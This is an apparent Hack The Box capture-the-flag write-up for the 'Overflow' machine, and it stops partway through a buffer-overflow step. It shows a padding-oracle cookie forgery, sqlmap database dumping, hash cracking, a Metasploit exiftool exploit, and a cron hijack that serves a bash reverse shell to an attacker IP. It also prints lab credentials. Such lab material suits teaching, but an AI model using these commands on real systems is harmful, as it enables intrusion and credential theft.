





# Overflow
IP: 10.10.11.119

## Nmap - Port Scan
### All ports
```bash
$ sudo nmap -p- --min-rate=1000 -T4 10.10.11.119

PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
80/tcp open  http
```

### Service & Safe Scripts
```bash
$ sudo nmap -sC -sV -p22,25,80 10.10.11.119 -o nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 18:04 AWST
Nmap scan report for 10.10.11.119
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 eb:7c:15:8f:f2:cc:d4:26:54:c1:e1:57:0d:d5:b6:7c (RSA)
|   256 d9:5d:22:85:03:de:ad:a0:df:b0:c3:00:aa:87:e8:9c (ECDSA)
|_  256 fa:ec:32:f9:47:17:60:7e:e0:ba:b6:d1:77:fb:07:7b (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: overflow, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Overflow Sec
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: Host:  overflow; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Port 80 - HTTP
Before we start digging into the machine I added the IP address to my `/etc/hosts`:
```
10.10.11.119    overflow.htb
```

Going to http://overflow.htb/ we see a website with only "Sign In" and "Sign Up" functionalities:


I first tried some default credentials but nothing works, so I registered a new user `caue:password`. The application automatically log me in as I sign up. Notice the redirect to `/home/index.php`, and other options are now available:


- Profile: Static profile page
- Blog: Static blog page
- Pricing: Redirects to home page
- Log out: Log out and redirect to home page

Nothing much we can do. I decided to run gobuster and also look at the cookies.

### Gobuster
Gobuster the root directory:
```
$ gobuster dir -u http://overflow.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php,txt

===============================================================
/login.php            (Status: 200) [Size: 1878]
/index.php            (Status: 200) [Size: 12227]
/register.php         (Status: 200) [Size: 2060] 
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/config               (Status: 301) [Size: 313] [--> http://overflow.htb/config/]
/home                 (Status: 301) [Size: 311] [--> http://overflow.htb/home/]  
/assets               (Status: 301) [Size: 313] [--> http://overflow.htb/assets/]
```

Gobuster the `/home` directory:
```
$ gobuster dir -u http://overflow.htb/home -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php,txt

===============================================================
/index.php            (Status: 302) [Size: 12503] [--> ../login.php]
/profile              (Status: 301) [Size: 319] [--> http://overflow.htb/home/profile/]
/logs.php             (Status: 200) [Size: 14]                                         
/blog.php             (Status: 200) [Size: 2971]                                       
/.                    (Status: 302) [Size: 12503] [--> ../login.php]
```

Accessing `/home/logs.php` we get "Unauthorized!!" message:


Probably we need to be a user with high privileges.

### Cookies
Lets take a look at the cookies:


Tried to decode the cookies but didn't get any information back, it looks like there is some cipher behind it. However, modifying the cookie adding or removing characters, we get redirected and an error message:


This could be indicative of CBC encryption, which can be reversed using a Padding Oracle Attack.
We’ll use _padbuster_ to attempt the padding oracle attack.
- `sudo apt install padbuster`

Padbuster is a tool able to decrypt ciphertext, encrypt paintext, and perform analysis. In another words, it can decrypt the cookie and also generate a new cookie with the text provided. So first we need to know what is that cookie so we can generate an admin cookie.

The original cookie from my screenshot seemed to have expired. I think there is some kind of database cleanup schedule running. So I registered a new account and extracted the cookie. Now we put this into our _padbuster_ command:
```bash
$ padbuster http://overflow.htb/login.php "8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" 8 -cookie "auth=8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: home/index.php
[+] Content Length: 1878

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1878    N/A
2 **    255     302     0       ../logout.php?err=1
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (250/256) [Byte 8]
[+] Success: (211/256) [Byte 7]
[+] Success: (9/256) [Byte 6]
[+] Success: (88/256) [Byte 5]
[+] Success: (166/256) [Byte 4]
[+] Success: (70/256) [Byte 3]
[+] Success: (92/256) [Byte 2]
[+] Success: (115/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 6218f9b3d2e036fc
[+] Intermediate Bytes (HEX): 85a3bc5facf42f07
[+] Plain Text: user=cau

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (6/256) [Byte 8]
[+] Success: (205/256) [Byte 7]
[+] Success: (28/256) [Byte 6]
[+] Success: (47/256) [Byte 5]
[+] Success: (79/256) [Byte 4]
[+] Success: (8/256) [Byte 3]
[+] Success: (232/256) [Byte 2]
[+] Success: (241/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): ecdde3d239c1a1a8
[+] Intermediate Bytes (HEX): 071ffeb4d5e731fb
[+] Plain Text: e

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=caue

[+] Decrypted value (HEX): 757365723D6361756507070707070707

[+] Decrypted value (Base64): dXNlcj1jYXVlBwcHBwcHBw==

-------------------------------------------------------
```

We have successfully decrypted the cookie! The cipher value is `user=caue`, which was the username registered. Now that we know the cipher value syntax, we’ll use _padbuster_ to generate a new cipher for admin:
```bash
$ padbuster http://overflow.htb/login.php "8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" 8 -cookie "auth=8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" -encoding 0 -plaintext "user=admin"

...[snip]...

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

Great! We have the `admin` cookie! We can open the browser developer tools and change the current cookie to this one. As soon as we refresh the page we get an "Admin Panel" menu option:


Clicking in the "Admin Panel" takes us to http://overflow.htb/admin_cms_panel/admin/login.php. It is a CMS Made Simple portal. There are a lot of exploits for this application but they most require authentication and we don't have credentials yet.

### Logs
Decided to go back to `/home` and take a look at the "Logs". Since we were not authorized before, lets see what happend with admin cookie:


Clicking in the "Logs" menu bar opens a popup dialog displaying the last login times of the user. If we look in the browser developer tools, we can see an interesting JavaScript being loaded `../config/admin_last_login.js`. Lets take a look at it.


Basically, it is fetching data from `http://overflow.htb/home/logs.php?name=admin`. Going to that URL we can confirm that:
![[image9.png]]

Every time a web application have a parameter that the user can control, we should test for weak sanitization. I will make this request again, intercept with Burp, save it to a file and use sqlmap to check for injections.

### SQLmap
Request saved from Burp (important to keep the cookie for authentication!):
```
GET /home/logs.php?name=admin HTTP/1.1
Host: overflow.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: auth=BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA; CMSSESSIDf25decdf38ae=8tv8s7kevmh1c5nb5ji39e7ae4
Upgrade-Insecure-Requests: 1
```

Testing for SQL injections:
```
$ sqlmap -r logs.req --batch
                                                     
       __H__                                                                                                                                           
 ___ ___[)]_____ ___ ___  {1.6.3#stable}                                                                                                               
|_ -| . [)]     | .'| . |                                                                                                                              
|___|_  [,]_|_|_|__,|  _|                                                                                                                              
      |_|V...       |_|   https://sqlmap.org                                                                                                           
                                                                                                                                                       
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all ap
plicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program         
                                                                                                                                                       
[*] starting @ 09:43:11 /2022-03-22/

...[snip]...

sqlmap identified the following injection point(s) with a total of 63 HTTP(s) requests:
---
Parameter: name (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: name=admin') AND 5589=5589 AND ('DNaJ'='DNaJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=admin') AND (SELECT 8574 FROM (SELECT(SLEEP(5)))xsgZ) AND ('KDae'='KDae

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: name=admin') UNION ALL SELECT NULL,NULL,CONCAT(0x7171786a71,0x4b6b4e524f4c51667345537049627879587273746d566d4474634f6b77594c746e4e496e4c4b5657,0x7162627871)-- -
---
[09:43:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
```

Yes! It is vulnerable to SQL injection. We see that the database is MySQL so we can add `-dbms=mysql` to our next queries. Lets enumerate this databases.

Databases:
```bash
sqlmap -r logs.req --batch -dbms=mysql --dbs

[09:48:37] [INFO] fetching database names
available databases [4]:
[*] cmsmsdb
[*] information_schema
[*] logs
[*] Overflow
```

DB->Overflow:
```bash
sqlmap -r logs.req --batch -dbms=mysql -D Overflow --tables --dump

Database: Overflow
Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| c71d60439ed5590b3c5e99d95ed48165 | admin    |
+----------------------------------+----------+
```
I could not crack this password! Lets move on.

DB->cmsmsdb:
```bash
sqlmap -r logs.req --batch -dbms=mysql -D cmsmsdb --tables

Database: cmsmsdb                                                                                                                              [10/581]
[47 tables]                                                                                                                                            
+-----------------------------+                                                                                                                        
| cms_additional_users        |                                                                                                                        
| cms_additional_users_seq    |                                                                                                                        
| cms_admin_bookmarks         |                                                                                                                        
| cms_admin_bookmarks_seq     |                                                                                                                        
| cms_adminlog                |                                                                                                                        
| cms_content                 |                                                                                                                        
| cms_content_props           |                                                                                                                        
| cms_content_props_seq       |                                                                                                                        
| cms_content_seq             |
| cms_event_handler_seq       |
| cms_event_handlers          |
| cms_events                  |
| cms_events_seq              |
| cms_group_perms             |
| cms_group_perms_seq         |
| cms_groups                  |
| cms_groups_seq              |
| cms_layout_design_cssassoc  |
| cms_layout_design_tplassoc  |
| cms_layout_designs          |
| cms_layout_stylesheets      |
| cms_layout_templates        |
| cms_layout_tpl_addusers     |
| cms_layout_tpl_categories   |
| cms_layout_tpl_type         |
| cms_locks                   |
| cms_mod_cmsjobmgr           |
| cms_mod_filepicker_profiles |
| cms_module_deps             |
| cms_module_search_index     |
| cms_module_search_items     |
| cms_module_search_items_seq |
| cms_module_search_words     |
| cms_module_smarty_plugins   |
| cms_module_templates        |
| cms_modules                 |
| cms_permissions             |
| cms_permissions_seq         |
| cms_routes                  |
| cms_siteprefs               |
| cms_user_groups             |
| cms_userplugins             |
| cms_userplugins_seq         |
| cms_userprefs               |
| cms_users                   |
| cms_users_seq               |
| cms_version                 |
+-----------------------------+
```

DB->cmsmsdb Table->cms_users:
```bash
sqlmap -r logs.req --batch -dbms=mysql -D cmsmsdb -T cms_users -C username,password,email --dump

Database: cmsmsdb
Table: cms_users
[2 entries]
+----------+----------------------------------+--------------------+
| username | password                         | email              |
+----------+----------------------------------+--------------------+
| admin    | c6c6b9310e0e6f3eb3ffeb2baff12fdd | admin@overflow.htb |
| editor   | e3d748d58b58657bfa4dffe2def0b1c7 | <blank>            |
+----------+----------------------------------+--------------------+
```

Ok, this looks promising...
Doing a little bit of research, this hashes are encrypted with salt and it can be found in the `cms_siteprefs` table under the `sitemask` column:

```
sqlmap -r logs.req --batch -dbms=mysql -D cmsmsdb -T cms_siteprefs

...[snip]...

| sitemask | 6c2d17f37e226486

...[snip]...
```

### Cracking users hashes
In order to use hashcat we need to add the hashes into a file following th `hash:salt` format:
```
c6c6b9310e0e6f3eb3ffeb2baff12fdd:6c2d17f37e226486
e3d748d58b58657bfa4dffe2def0b1c7:6c2d17f37e226486
```

Lets run hashcat against the hashes:
```
hashcat -m 20 hashes.txt /usr/share/wordlists/rockyou.txt

e3d748d58b58657bfa4dffe2def0b1c7:6c2d17f37e226486:alpha!@#$%bravo
```

Hashcat only cracked the `editor` password `alpha!@#$%bravo`.

### CMS Made Simple
Back to the CMS page http://overflow.htb/admin_cms_panel/admin/login.php we can use this credentials to login!
We can see at the bottom of the page the version `CMS Made Simple 2.2.8 Flin Flon`. I kept browsing and enumerating the pages and saw an hint to another page:


Adding the new hostname to our hosts file we can access it.
There is a login page and using the same credentials from `editor` we successfully login to the web app.

### Devbuild
Poking around on the website, we find an upload function when we click on our account. I tried uploading a php webshell, but it failed due to unsupported filetype.


Another interesting thing was the server response when we upload a file:
```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 22 Mar 2022 02:40:21 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: ./index.php?upload=0
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 2391

ExifTool Version Number         : 11.92
File Name                       : 62393716a29472.00671524.jpg
Directory                       : ../../assets/data/upliid
File Size                       : 114 kB
File Modification Date/Time     : 2022:03:22 08:10:22+05:30
File Access Date/Time           : 2022:03:22 08:10:21+05:30
File Inode Change Date/Time     : 2022:03:22 08:10:22+05:30
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg

...[snip]...
```

It is using exiftool! Doing a little more research on _exiftool_ - specially version 11.92, I found a [CVE-2021–22204](https://www.exploit-db.com/download/49881). Metasploit has a module for the exploit, which makes this super convenient.
```
msf6 > use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set LHOST 10.10.14.3
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > options

Module options (exploit/unix/fileformat/exiftool_djvu_ant_perl_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.jpg          yes       Output file


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   JPEG file

msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > run

[+] msf.jpg stored at /root/.msf4/local/msf.jpg
```

Lets start a netcat listener on port 4444 and upload the generated jpeg file.
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.119] 38406

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@overflow:~/devbuild-job/home/profile$
```

## Shell as www-data
Looking through the web folders we find some credentials.
`~/devbuild-job/config/db.php`
```bash
www-data@overflow:~/devbuild-job/config$ cat db.php 
<?php
$lnk = mysqli_connect("localhost","dev_manager", "3RyxKah_hBf*V6ja","develop");
?>
```

And

`~/html/config/db.php`
```bash
www-data@overflow:~/html/config$ cat db.php 
<?php 

#define('DB_Server', 'localhost');
#define('DB_Username', 'root');
#define('DB_Password','root');
#define('DB_Name', 'Overflow');

$lnk = mysqli_connect("localhost","developer", "sh@tim@n","Overflow");
$db = mysqli_select_db($lnk,"Overflow");

if($db == false){
    dir('Cannot Connect to Database');
}

?>

```

We need to escalate to a user, preferable with shell. Lets look at the `/etc/passwd`:
```
www-data@overflow:~/devbuild-job/config$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
tester:x:1000:1000:tester,,,:/home/tester:/bin/bash
developer:x:1001:1001::/home/developer:/bin/sh
```

We have a user called `developer`, and we also have a database password for `developer`. Lets use SSH with these credentials.

## SSH as Developer
```bash
$ ssh developer@overflow.htb
developer@overflow.htbs password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar 22 08:28:11 IST 2022

  System load:  0.0               Processes:           169
  Usage of /:   45.2% of 5.84GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 10.10.11.119
  Swap usage:   0%


0 updates can be applied immediately.


-sh: 28: set: Illegal option -o history
-sh: 1: set: Illegal option -o history

$ pwd
/home/developer
$ ls -la
total 28
drwxr-xr-x 5 developer root      4096 Sep 28 04:42 .
drwxr-xr-x 4 root      root      4096 May 26  2021 ..
lrwxrwxrwx 1 root      root         9 Sep 27 22:49 .bash_history -> /dev/null
-rw-r--r-- 1 developer root      3106 May 28  2021 .bashrc
drwx------ 2 developer developer 4096 May 26  2021 .cache
drwx------ 4 developer developer 4096 May 28  2021 .gnupg
-rw-r--r-- 1 root      root        15 May 30  2021 .profile
drwx------ 2 developer developer 4096 Sep 28 04:44 .ssh

```

We still don't have `user.txt` flag! It is in the `/home/tester` directory. So we need to find a way to escalate to `tester` user.

Enumerating the machine, we see some interesting files owned by `tester` in `/opt`:
```
developer@overflow:/opt$ ls -la
total 16
drwxr-xr-x   3 root   root   4096 Sep 17  2021 .
drwxr-xr-x  25 root   root   4096 Jan 26 21:08 ..
-rwxr-x---+  1 tester tester  109 May 28  2021 commontask.sh
drwxr-x---+  2 root   root   4096 Sep 17  2021 file_encrypt

developer@overflow:/opt$ cat commontask.sh 
#!/bin/bash

#make sure its running every minute.

bash < <(curl -s http://taskmanage.overflow.htb/task.sh)
```

The problem is, the `taskmanage` subdomain does not exist. We can hijack the request doing the following:  
- Create `task.sh` on ur attacking machine that when ran it creates a reverse connection to us
- Spin a python web server on port 80  
- Set our attacking IP to resolve `taskmanage.overflow.htb` on overflow's host file
- Start netcat listener and wait a minute for tester to connect 😀

First I created the `task.sh` in my machine with a bash reverse shell and started a Python web server on port 80:
```bash
$ cat task.sh                                                                               
bash -i >& /dev/tcp/10.10.14.3/4444 0>&1

$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Also in another terminal started a netcat listener on port 4444.

In Overflow machine we can add the host entry `taskmanage.overflow.htb` pointing to our machine:
```
echo "10.10.14.3 taskmanage.overflow.htb" >> /etc/hosts
```

After a minute or two we get a hit in our Python web server and a connection back to our netcat listener!

## Shell as tester
```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.119] 38718
bash: cannot set terminal process group (6059): Inappropriate ioctl for device
bash: no job control in this shell
tester@overflow:~$
```

Lets upgrade the tty generating SSH keys:
```bash
tester@overflow:~/.ssh$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/tester/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/tester/.ssh/id_rsa.
Your public key has been saved in /home/tester/.ssh/id_rsa.pub.

tester@overflow:~/.ssh$ cp id_rsa.pub authorized_keys
tester@overflow:~/.ssh$ chmod 600 ./authorized_keys
tester@overflow:~/.ssh$ cat id_rsa
```

Create a file with the `id_rsa` contents in attacker machine and use it to SSH in:
```bash
$ nano tester.idrsa
$ chmod 600 tester.idrsa
$ ssh -i tester.idrsa tester@overflow.htb
```

### File encrypt
Going back to the `/opt` directory we can access the `file_encrypt` folder, owned by root but with ACLS to the `tester` user, and read the `README.md`:
```
tester@overflow:/opt/file_encrypt$ cat README.md 
Our couple of reports have been leaked to avoid this. We have created a tool to encrypt your reports. Please check the pin feature of this application and report any issue that you get as this application is still in development. We have modified the tool a little bit that you can only use the pin feature now. The encrypt function is there but you can't use it now.The PIN should be in your inbox

tester@overflow:/opt/file_encrypt$ ./file_encrypt 
This is the code 1804289383. Enter the Pin: 12345
Wrong Pin
```

Given the name of the machine, I thought this would be a buffer overflow. So I tried passing varying lengths and characters to the PIN field but just said "Wrong Pin". So, let’s bring the file back to our machine so we can reverse it.
```bash
scp -i tester.idrsa tester@overflow.htb:/opt/file_encrypt/file_encrypt ./file_encrypt
file_encrypt                                            100%   12KB  37.4KB/s   00:00
```

First I check the file security flags:
```bash
$ checksec file_encrypt 
[*] '/home/caue/htb/overflow/reverse/file_encrypt'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Lets open in Ghidra and have a look at the functions!
Starting with the `check_pin` function, maybe we can reverse the code to determine a valid PIN.


The code looks fairly straightfoward. The PIN we enter is stored in the `local_18` variable and then compared to `local_14`. If they match, we have the correct PIN.
`local_14` is generated through the `random()` function. Let’s look at it:
```C random()
long random(void)

{
  uint in_stack_00000004;
  uint local_c;
  int local_8;
  
  local_c = 0x6b8b4567;
  for (local_8 = 0; local_8 < 10; local_8 = local_8 + 1) {
    local_c = local_c * 0x59 + 0x14;
  }
  return local_c ^ in_stack_00000004;
}
```

This is the function that creates the PIN. In theory, we should be able to replicate this code elsewhere and generate a working PIN. We’ll do this in python and run it on the server.
There are a few gotcha’s in this function. First, was not able to decompile the first variable correctly, leaving us with `in_stack_00000004`. We need to identify this value since we will be xor’ing it with the `local_c` value below.

To get this value, we use gdb to set a breakpoint at the function `return`, and then we examine the value in memory at that location:
```bash
$ gdb file_encrypt

(gdb) disas random
Dump of assembler code for function random:
   0x0000081d <+0>:     push   %ebp
   0x0000081e <+1>:     mov    %esp,%ebp
   0x00000820 <+3>:     sub    $0x10,%esp
   0x00000823 <+6>:     call   0xb90 <__x86.get_pc_thunk.ax>
   0x00000828 <+11>:    add    $0x2778,%eax
   0x0000082d <+16>:    movl   $0x6b8b4567,-0x8(%ebp)
   0x00000834 <+23>:    movl   $0x0,-0x4(%ebp)
   0x0000083b <+30>:    jmp    0x84d <random+48>
   0x0000083d <+32>:    mov    -0x8(%ebp),%eax
   0x00000840 <+35>:    imul   $0x59,%eax,%eax
   0x00000843 <+38>:    add    $0x14,%eax
   0x00000846 <+41>:    mov    %eax,-0x8(%ebp)
   0x00000849 <+44>:    addl   $0x1,-0x4(%ebp)
   0x0000084d <+48>:    cmpl   $0x9,-0x4(%ebp)
   0x00000851 <+52>:    jle    0x83d <random+32>
   0x00000853 <+54>:    mov    -0x8(%ebp),%eax
   0x00000856 <+57>:    xor    0x8(%ebp),%eax
   0x00000859 <+60>:    leave  
   0x0000085a <+61>:    ret    
End of assembler dump.
```

Here we disassemble the `random()` function. Next we set a breakpoint at offset 57, where we xor our values. The end result of the xor operation is returned by the function.
```bash
(gdb) b * random+57
Breakpoint 1 at 0x856
```

Now we run the program until the breakpoint is reached. Once there, we can examine the value at the memory location, which would be `0x8(%ebp)` or, written differently, `ebp+8`.

```bash
(gdb) r
Starting program: /home/caue/htb/overflow/reverse/file_encrypt 

Breakpoint 1, 0x56555856 in random ()
(gdb) x /10x $ebp +8
0xffffcf40:     0x6b8b4567      0x56557fa0      0x00000001      0x56555ac7
0xffffcf50:     0x00000001      0xf7fdc480      0x00000000      0xf7df18ce
0xffffcf60:     0xf7fa53fc      0x56557fa0
```

The value at that address is the same value passed to `local_c`. So essentially in our code, we’ll need to xor the final `local_c` value against the original `local_c` value.

The other issue is that the return value from the random function is a type long integer. Because our input value in `check_pin` is a signed `int` type, we need to cast the return value from `random` as a signed `int`, otherwise the values will never match. Python3 does not differentiate between `long` and `int` values natively, so to do the conversion we need to include the `ctypes` import in our code.

```python generate_pin.py
#!/usr/bin/python3

import ctypes

local_c_initial = 0x6b8b4567
local_c = 0x6b8b4567
local_8 = 0

while (local_8 <10):
        local_c = local_c * 0x59 + 0x14
        local_8 = local_8 + 1

PIN = ctypes.c_int(local_c ^ local_c_initial).value
print("The PIN code is: ", PIN)
```

Running the python script generates a PIN code:
```bash
$ python3 generate_pin.py
The PIN code is:  -202976456
```

And the PIN is valid! We’re presented with a name prompt and the program exited with a thank you message.
```
tester@overflow:/opt/file_encrypt$ ./file_encrypt 
This is the code 1804289383. Enter the Pin: -202976456
name: testing nameeeeee
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
```

Back to Ghidra we look at the `check_pin` function again and spot where the `name:` is being used and stored. It is stored in `local_2c` variable which is programmed to allocate 20 bytes only, here is our buffer overflow!


We can confirm running the binary in gdb and passing a large amount of characters when it asks for a "name":
```
$ gdb file_encrypt

(gdb) r
Starting program: /home/caue/htb/overflow/reverse/file_encrypt 
